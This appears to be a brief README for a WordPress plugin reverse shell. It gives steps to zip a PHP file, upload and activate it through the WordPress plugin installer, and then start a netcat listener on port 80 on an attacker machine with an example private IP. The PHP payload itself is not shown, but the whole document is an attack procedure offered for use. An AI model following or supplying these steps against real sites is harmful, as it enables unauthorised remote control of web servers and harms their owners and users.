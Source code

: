 # wordpress_plugin_reverse_shell.php
1.) Zip up php file.
2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.
3.) Setup listening port from attacker machine (PHP script uses example - 192.168.0.1): netcat -lvp 80
